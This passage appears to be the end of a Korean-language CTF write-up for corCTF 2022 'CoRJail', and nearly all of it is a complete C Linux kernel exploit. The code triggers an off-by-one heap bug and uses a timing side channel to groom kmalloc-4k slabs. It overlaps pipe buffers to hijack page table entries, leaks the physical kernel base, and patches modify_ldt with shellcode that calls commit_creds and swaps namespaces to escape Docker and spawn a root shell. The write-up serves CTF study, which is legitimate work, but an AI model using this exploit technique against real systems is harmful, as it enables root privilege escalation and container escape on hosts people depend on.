  if (sched_setaffinity(0, sizeof(cpu_set_t), &target_cpu)) {
    fatal("sched_setaffinity");
  }
}

static void get_enter_to_continue(const char *msg) {
  puts(msg);
  getchar();
}
static void fatal(const char *msg) {
  perror(msg);
  // get_enter_to_continue("Press enter to exit...");
  exit(-1);
}

/**
 * type must be "keyring", "user", "logon", or "big_key"
 */
static int32_t sys_add_key(const char *type, const char *desc,
                           const void *payload, size_t plen, int ringid);
static int32_t sys_keyctl(int cmd, ...);
static int32_t sys_revoke_key(int32_t key);
static int32_t sys_update_key(int32_t key, void *payload, size_t size);
static int32_t sys_read_key(int32_t key, char *buf, size_t size);

static int32_t sys_add_key(const char *type, const char *desc,
                           const void *payload, size_t plen, int ringid) {
  return syscall(__NR_add_key, type, desc, payload, plen, ringid);
}
static int32_t sys_keyctl(int cmd, ...) {
  va_list ap;
  long arg2, arg3, arg4, arg5;
  va_start(ap, cmd);
  arg2 = va_arg(ap, long);
  arg3 = va_arg(ap, long);
  arg4 = va_arg(ap, long);
  arg5 = va_arg(ap, long);
  va_end(ap);
  return syscall(__NR_keyctl, cmd, arg2, arg3, arg4, arg5);
}
static int32_t sys_revoke_key(int32_t key) {
  return sys_keyctl(KEYCTL_REVOKE, key);
}
static int32_t sys_read_key(int32_t key, char *buf, size_t size) {
  return sys_keyctl(KEYCTL_READ, key, buf, size);
}
static int32_t sys_update_key(int32_t key, void *payload, size_t size) {
  return sys_keyctl(KEYCTL_UPDATE, key, payload, size);
}

int vuln_fd;
static void off_by_one_in_kmalloc_4k(void);

static void off_by_one_in_kmalloc_4k(void) {
  char buf[0x1000];
  memset(buf, 0, 0x1000);
  write(vuln_fd, buf, 0x1000);
}

#define HEAP_ALLOC_COUNT 1000
int pipe_fds[HEAP_ALLOC_COUNT][2];
int alloc_4k_pipe_at(uint64_t idx) {
  const size_t pipe_size = 0x1000 * 64;
  int *fds = pipe_fds[idx];
  int res = pipe(fds);
  res |= (fcntl(fds[1], F_SETPIPE_SZ, pipe_size) < 0);

  char *uniguri = "UNIGURI@";
  const uint64_t pipe_magic = 0xdeadbeef00000000 + idx;
  write(fds[1], uniguri, 8);
  write(fds[1], &pipe_magic, 8);

  return !res ? 0 : -1;
}

void close_pipe_at(size_t idx) {
  for (int i = 0; i < 2; ++i) {
    if (pipe_fds[idx][i] > 2) {
      close(pipe_fds[idx][i]);
      pipe_fds[idx][i] = -1;
    }
  }
}

size_t last_idx_in_slab[HEAP_ALLOC_COUNT];
int pipe_cnt = 0;
int make_kmalloc_4k_slab_full(const int slab_cnt) {
  pipe_cnt = 0;
  int add_key_res[HEAP_ALLOC_COUNT];
  size_t times[HEAP_ALLOC_COUNT] = {
      0,
  };
  const char type[] = "keyring";
  char desc[0x1000];
  memset(desc, '.', sizeof(desc));
  desc[sizeof(desc) - 1] = 0;

  size_t last = 0;
  memset(last_idx_in_slab, 0, sizeof(last_idx_in_slab));
  size_t running = 0;
  int finded = 0;
  for (int i = 0; i < HEAP_ALLOC_COUNT; ++i) {
    sched_yield();
    int pipe_res = alloc_4k_pipe_at(i);
    const size_t t1 = rdtsc_begin();
    sys_add_key(type, desc, NULL, 0, 0);
    const size_t t2 = rdtsc_end();
    times[i] = t2 - t1;
    if (pipe_res < 0) {
      break;
    }
    ++pipe_cnt;

    if (times[i] > 8000 && (i == 0 || times[i] - times[i - 1] > 1500)) {
      if (last == 0) {
        last = i;
        last_idx_in_slab[running] = i;
        ++running;
      } else if (i - last == 8) {
        last = i;
        last_idx_in_slab[running] = i;
        ++running;
      } else {
        last = 0;
        running = 0;
      }

      if (running == slab_cnt) {
        for (int j = 0; j < 8 && (i + j + 1 - last) % 8 != 0; ++j) {
          alloc_4k_pipe_at(i + j + 1);
          ++pipe_cnt;
        }
        finded = 1;
        break;
      }
    }
  }
  return finded ? 0 : -1;
}

size_t victim_pipe_fds[2];
int find_overlapped_pipes() {
  char buf[0x20];
  uint64_t *uint64_buf = (uint64_t *)buf;
  for (size_t i = 0; i < pipe_cnt; ++i) {
    read(pipe_fds[i][0], buf, 0x10);
    int is_ok = (memcmp(buf, "UNIGURI@", 8) == 0 &&
                 (uint64_buf[1] >> 32) == 0xdeadbeef);
    int is_corrupted = (uint64_buf[1] == 0xdeadbeef00000000 + i);
    if (is_ok && !is_corrupted) {
      victim_pipe_fds[0] = i;
      victim_pipe_fds[1] = uint64_buf[1] & 0xffffffff;
      return 0;
    }
    if (!is_ok) {
      return -1;
    }
  }

  return -1;
}

int test_overlapped_pipes() {
  char tmp[0x100];
  memset(tmp, 0, sizeof(tmp));
  const char *test_str = "UNIGURI!";
  const size_t test_str_len = strlen(test_str);
  printf("    [*] Test msg(len=0x%lx): \"%s\"\n", test_str_len, test_str);

  write(pipe_fds[victim_pipe_fds[1]][1], tmp, test_str_len);

  strncpy(tmp, test_str, sizeof(tmp));
  printf("    [*] Write \"%s\" to pipe@%lx\n", tmp, victim_pipe_fds[0]);
  write(pipe_fds[victim_pipe_fds[0]][1], tmp, test_str_len);

  memset(tmp, 0, sizeof(tmp));
  read(pipe_fds[victim_pipe_fds[1]][0], tmp, test_str_len);
  printf("    [*] Read \"%s\" from pipe@%lx\n", tmp, victim_pipe_fds[1]);

  const int successed = !memcmp(test_str, tmp, test_str_len) ? 0 : -1;
  read(pipe_fds[victim_pipe_fds[0]][0], tmp, test_str_len);
  return successed;
}

#define MMAP_SPRAY_COUNT 0x1000UL
#define FILE_SPRAY_COUNT (MMAP_SPRAY_COUNT / 0x10)
void *mmap_addrs[MMAP_SPRAY_COUNT];
#define MMAP_SPRAT_START_ADDR 0xcafe0000UL
#define MMAP_PAGE_SIZE 0x1000UL
#define MMAP_SPRAT_STEP 0x10000UL
#define MMAP_SPRAT_SIZE 0x10000UL
void spray_ptes_target_to_victim_pipe_page() {
  for (int i = 0; i < MMAP_SPRAY_COUNT; ++i) {
    mmap_addrs[i] = mmap((void *)(MMAP_SPRAT_START_ADDR + i * MMAP_SPRAT_STEP),
                         MMAP_SPRAT_SIZE, PROT_READ | PROT_WRITE,
                         MAP_ANONYMOUS | MAP_SHARED, -1, 0);
    if (mmap_addrs[i] == MAP_FAILED) {
      fatal("mmap");
    }
  }

  int file_fds[FILE_SPRAY_COUNT];

  sched_yield();
  close_pipe_at(victim_pipe_fds[1]);

  for (int i = 0; i < FILE_SPRAY_COUNT; ++i) {
    file_fds[i] = open("/", O_RDONLY);
    if (file_fds[i] < 0) {
      fatal("open");
    }
  }

  for (int i = 0; i < FILE_SPRAY_COUNT; ++i) {
    close(file_fds[i]);
  }

  for (int i = 0; i < MMAP_SPRAY_COUNT; ++i) {
    for (int j = 0; j < MMAP_SPRAT_SIZE / MMAP_PAGE_SIZE; ++j) {
      uint64_t *addr = (uint64_t *)(mmap_addrs[i] + MMAP_PAGE_SIZE * j);
      const uint64_t val = ((uint64_t)i << 32) + j * 0x01010101;
      *addr = val;
    }
  }
}

void *corrupted_mmap_addr = (void *)-1;
void find_corrupted_mmap_addr() {
  if (corrupted_mmap_addr != (void *)-1) {
    return;
  }
  for (int i = 0; i < MMAP_SPRAY_COUNT; ++i) {
    for (int j = 0; j < MMAP_SPRAT_SIZE / MMAP_PAGE_SIZE; ++j) {
      uint64_t *addr = (uint64_t *)(mmap_addrs[i] + MMAP_PAGE_SIZE * j);
      const uint64_t val = ((uint64_t)i << 32) + j * 0x01010101;
      if (*addr != val) {
        corrupted_mmap_addr = addr;
        return;
      }
    }
  }
}

uint64_t original_ptes[0x1000 / 8];
uint64_t physical_kernel_base;
uint64_t default_pte_for_kernel_code;

void *set_pte(uint64_t new_pte) {
  static uint64_t cur_offset = 0;
  if (cur_offset >= 0x1000 * 512) {
    fatal("set_pte: too many modifications");
  }
  write(pipe_fds[victim_pipe_fds[0]][1], &new_pte, 8);
  if (corrupted_mmap_addr == (void *)-1) {
    find_corrupted_mmap_addr();
  }
  void *affected_addr = corrupted_mmap_addr + cur_offset;
  cur_offset += 0x1000;
  return affected_addr;
}

uint64_t user_cs, user_ss, user_sp, user_rflags;
static void save_state() {
  asm("mov %[u_cs], cs;\n"
      "mov %[u_ss], ss;\n"
      "mov %[u_sp], rsp;\n"
      "pushf;\n"
      "pop %[u_rflags];\n"
      : [u_cs] "=r"(user_cs), [u_ss] "=r"(user_ss), [u_sp] "=r"(user_sp),
        [u_rflags] "=r"(user_rflags)::"memory");
  printf(
      "[*] user_cs: 0x%lx, user_ss: 0x%lx, user_sp: 0x%lx, user_rflags: "
      "0x%lx\n",
      user_cs, user_ss, user_sp, user_rflags);
}

#define MODIFY_LDT_ADDR 0xffffffff810252f0
#define MODIFY_LDT_OFFSET (MODIFY_LDT_ADDR - KERNEL_BASE_START)
uint64_t *modify_ldt_addr;
uint8_t original_modify_ldt_code[0x1000];
static void get_shell() {
  puts("[+] Escaping docker is success");
  puts("    [*] Restore original modify_ldt code");
  memcpy(modify_ldt_addr, original_modify_ldt_code,
         sizeof(original_modify_ldt_code) - (MODIFY_LDT_OFFSET & 0xfff));

  puts("[+] Get shell!");
  char *argv[] = {"/bin/bash", NULL};
  char *envp[] = {NULL};
  execve("/bin/bash", argv, envp);
}
void patch_modify_ldt() {
  const uint64_t pte_for_modify_ldt =
      default_pte_for_kernel_code + (MODIFY_LDT_OFFSET & ~(0xFFF));
  modify_ldt_addr =
      (uint64_t *)(set_pte(pte_for_modify_ldt) + (MODIFY_LDT_OFFSET & 0xfff));
  /*
   * Below opcodes are from:
   * call get_rip;
   * get_rip:
   *   pop r15;
   *   sub r15, 0x252f0; // &__x64_sys_modify_ldt - kbase == 0x252f0
   *   sub r15, 5; // call get_rip; takes 5 bytes
   *
   *   // call commit_creds(&init_cred);
   *   lea rdi, [r15 + 0x145a960]; // &init_cred - kbase == 0x145a960
   *   lea rax, [r15 + 0xeba40]; // &commit_creds - kbase == 0xeba40
   *   call rax;
   *
   *   // task = find_task_by_vpid(1);
   *   // call switch_task_namespaces(task, &init_nsproxy);
   *   mov rdi, 1;
   *   lea rax, [r15 + 0xe4fc0]; // &find_task_by_vpid - kbase == 0xe4fc0
   *   call rax; // find_task_by_vpid(1)
   *   mov rdi, rax; // task
   *   lea rsi, [r15 + 0x145a720]; // &init_nsproxy - kbase == 0x145a720
   *   lea rax, [r15 + 0xea4e0]; // &switch_task_namespaces - kbase == 0xea4e0
   *   call rax; // switch_task_namespaces(task, &init_nsproxy);
   *
   *   // current = find_task_by_vpid(pid);
   *   // current->fs = copy_fs_struct(&init_fs);
   *   lea rdi, [r15 + 0x1589740]; // &init_fs - kbase == 0x1589740
   *   lea rax, [r15 + 0x2e7350]; // &copy_fs_struct - kbase == 0x2e7350
   *   call rax; // copy_fs_struct(&init_fs);
   *   mov rbx, rax; // new_fs
   *   mov rdi, 0x1111111111111111; // pid: will be fiexed
   *   lea rax, [r15 + 0xe4fc0]; // &find_task_by_vpid - kbase == 0xe4fc0
   *   call rax; // current = find_task_by_vpid(pid)
   *   mov [rax + 0x6e0], rbx; // current->fs = new_fs
   *
   *   // bypass kpti
   *   xor rax, rax;
   *   mov [rsp + 0x00], rax;
   *   mov [rsp + 0x08], rax;
   *   mov rax, 0x2222222222222222; // user_ip: will be fixed
   *   mov [rsp + 0x10], rax;
   *   mov rax, 0x3333333333333333; // user_cs: will be fixed
   *   mov [rsp + 0x18], rax;
   *   mov rax, 0x4444444444444444; // user_rflags: will be fixed
   *   mov [rsp + 0x20], rax;
   *   mov rax, 0x5555555555555555; // user_sp: will be fixed
   *   mov [rsp + 0x28], rax;
   *   mov rax, 0x6666666666666666; // user_ss: will be fixed
   *   mov [rsp + 0x30], rax;
   *   lea rax, [r15 + 0xc00f06]; // bypass_kpti - kbase == 0xc00f06
   *   jmp rax; // bypass_kpti
   */
  uint8_t new_modify_ldt_code[] = {
      0xE8, 0x00, 0x00, 0x00, 0x00, 0x41, 0x5F, 0x49, 0x81, 0xEF, 0xF0, 0x52,
      0x02, 0x00, 0x49, 0x83, 0xEF, 0x05, 0x49, 0x8D, 0xBF, 0x60, 0xA9, 0x45,
      0x01, 0x49, 0x8D, 0x87, 0x40, 0xBA, 0x0E, 0x00, 0xFF, 0xD0, 0x48, 0xC7,
      0xC7, 0x01, 0x00, 0x00, 0x00, 0x49, 0x8D, 0x87, 0xC0, 0x4F, 0x0E, 0x00,
      0xFF, 0xD0, 0x48, 0x89, 0xC7, 0x49, 0x8D, 0xB7, 0x20, 0xA7, 0x45, 0x01,
      0x49, 0x8D, 0x87, 0xE0, 0xA4, 0x0E, 0x00, 0xFF, 0xD0, 0x49, 0x8D, 0xBF,
      0x40, 0x97, 0x58, 0x01, 0x49, 0x8D, 0x87, 0x50, 0x73, 0x2E, 0x00, 0xFF,
      0xD0, 0x48, 0x89, 0xC3, 0x48, 0xBF, 0x11, 0x11, 0x11, 0x11, 0x11, 0x11,
      0x11, 0x11, 0x49, 0x8D, 0x87, 0xC0, 0x4F, 0x0E, 0x00, 0xFF, 0xD0, 0x48,
      0x89, 0x98, 0xE0, 0x06, 0x00, 0x00, 0x48, 0x31, 0xC0, 0x48, 0x89, 0x04,
      0x24, 0x48, 0x89, 0x44, 0x24, 0x08, 0x48, 0xB8, 0x22, 0x22, 0x22, 0x22,
      0x22, 0x22, 0x22, 0x22, 0x48, 0x89, 0x44, 0x24, 0x10, 0x48, 0xB8, 0x33,
      0x33, 0x33, 0x33, 0x33, 0x33, 0x33, 0x33, 0x48, 0x89, 0x44, 0x24, 0x18,
      0x48, 0xB8, 0x44, 0x44, 0x44, 0x44, 0x44, 0x44, 0x44, 0x44, 0x48, 0x89,
      0x44, 0x24, 0x20, 0x48, 0xB8, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55,
      0x55, 0x48, 0x89, 0x44, 0x24, 0x28, 0x48, 0xB8, 0x66, 0x66, 0x66, 0x66,
      0x66, 0x66, 0x66, 0x66, 0x48, 0x89, 0x44, 0x24, 0x30, 0x49, 0x8D, 0x87,
      0x06, 0x0F, 0xC0, 0x00, 0xFF, 0xE0};

  uint64_t *ptr;
  ptr = (uint64_t *)memmem(new_modify_ldt_code, sizeof(new_modify_ldt_code),
                           "\x11\x11\x11\x11\x11\x11\x11\x11", 8);
  *ptr = getpid();
  ptr = (uint64_t *)memmem(new_modify_ldt_code, sizeof(new_modify_ldt_code),
                           "\x22\x22\x22\x22\x22\x22\x22\x22", 8);
  *ptr = (uint64_t)get_shell;
  ptr = (uint64_t *)memmem(new_modify_ldt_code, sizeof(new_modify_ldt_code),
                           "\x33\x33\x33\x33\x33\x33\x33\x33", 8);
  *ptr = user_cs;
  ptr = (uint64_t *)memmem(new_modify_ldt_code, sizeof(new_modify_ldt_code),
                           "\x44\x44\x44\x44\x44\x44\x44\x44", 8);
  *ptr = user_rflags;
  ptr = (uint64_t *)memmem(new_modify_ldt_code, sizeof(new_modify_ldt_code),
                           "\x55\x55\x55\x55\x55\x55\x55\x55", 8);
  *ptr = user_sp;
  ptr = (uint64_t *)memmem(new_modify_ldt_code, sizeof(new_modify_ldt_code),
                           "\x66\x66\x66\x66\x66\x66\x66\x66", 8);
  *ptr = user_ss;

  memcpy(original_modify_ldt_code, modify_ldt_addr,
         sizeof(original_modify_ldt_code) - (MODIFY_LDT_OFFSET & 0xfff));
  memcpy(modify_ldt_addr, new_modify_ldt_code, sizeof(new_modify_ldt_code));
}

#define SLAB_COUNT 7

int main() {
  pin_to_core(0);
  save_state();
  vuln_fd = open("/proc_rw/cormon", O_RDWR);
  if (vuln_fd < 0) {
    fatal("open");
  }
  void *tmpbuf = malloc(0x1000);
  uint64_t *uint64_tmpbuf = (uint64_t *)tmpbuf;

FIRST_STEP:
#define RETRY()                                            \
  do {                                                     \
    for (int i = 0; i < pipe_cnt; ++i) {                   \
      close_pipe_at(i);                                    \
    }                                                      \
    sched_yield();                                         \
    puts("\n[*] Retry from first step after 1 seconds\n"); \
    sleep(1);                                              \
    goto FIRST_STEP;                                       \
  } while (0)

  puts("[*] Do side-channel for kmalloc-4k slab...");
  while (make_kmalloc_4k_slab_full(SLAB_COUNT) < 0) {
    puts("    [*] Retry side-channel for kmalloc-4k slab...");
    for (int i = 0; i < pipe_cnt; ++i) {
      close_pipe_at(i);
    }
    sched_yield();
  }
  puts("    [+] Side-channel success");

  const size_t target_pipe_idx = SLAB_COUNT * 4 + 4;
  puts("[*] Trigger off-by-one...");
  sched_yield();
  close_pipe_at(target_pipe_idx);
  off_by_one_in_kmalloc_4k();
  alloc_4k_pipe_at(target_pipe_idx);
  sched_yield();

  puts("[*] Finding overlapped pipes...");
  if (find_overlapped_pipes()) {
    puts("    [-] Overlapping seems false positive");
    RETRY();
  }
  printf("    [+] pipe @ %lx and pipe @ %lx are overlapped!\n",
         victim_pipe_fds[0], victim_pipe_fds[1]);

  puts("[*] Test overlapped pipes");
  if (test_overlapped_pipes() < 0) {
    puts("    [-] Overlapping seems false positive");
    RETRY();
  }
  puts("    [+] Overlapping is true");

  puts("[*] Set pipe's offset to 0x1000 for reading PTEs");
  write(pipe_fds[victim_pipe_fds[0]][1], original_ptes, 0x1000);

  puts("[*] Spray PTEs...");
  spray_ptes_target_to_victim_pipe_page();

  puts("[*] Read PTEs");
  read(pipe_fds[victim_pipe_fds[0]][0], original_ptes, 0x1000);
  if ((original_ptes[0] & PTE_FLAGS_MASK) != 0x8000000000000867) {
    puts("    [-] UAF page does not contain PTEs");
    RETRY();
  }
  printf("    [+] UAF page contains PTEs (One of them is 0x%016lx)\n",
         original_ptes[0]);

  puts("[*] Overwrite PTE to leak physical kernel base");
  const uint64_t new_pte_for_dmabuf =
      PAGE_DEFAULT_FLAGS | 0x9c000;  // dmabuf..? WTF?!
  uint64_t *dmabuf_addr = (uint64_t *)set_pte(new_pte_for_dmabuf);

  find_corrupted_mmap_addr();
  if (corrupted_mmap_addr == (void *)-1) {
    puts("    [-] Corrupted mmap addr not found");
    RETRY();
  }
  printf("    [+] Corrupted mmap addr: %p\n", corrupted_mmap_addr);
  physical_kernel_base = (*dmabuf_addr & PTE_PFN_MASK) - 0x2004000ULL;
  printf("    [+] physical kernel base: 0x%016lx\n", physical_kernel_base);
  default_pte_for_kernel_code = physical_kernel_base | PAGE_DEFAULT_FLAGS;

  puts("[*] Escaping docker...");
  puts("    [*] Patch modify_ldt");
  patch_modify_ldt();
  puts("    [*] Call patched modify_ldt...");
  syscall(SYS_modify_ldt);
  puts("    [-] Failed to Escaping docker");

  get_enter_to_continue("Press enter to exit...");
  return 0;
}
```

## 참고 자료

- <https://github.com/Crusaders-of-Rust/corCTF-2022-public-challenge-archive/tree/master/pwn/corjail/task>
- <https://gitlab.com/sajjadium/ctf-archives/-/tree/main/ctfs/corCTF/2022/pwn/CoRJail>
- <https://github.com/isec-tugraz/SLUBStick>
- <https://github.com/Lotuhu/Page-UAF>
- <https://ptr-yudai.hatenablog.com/entry/2023/12/07/221333>
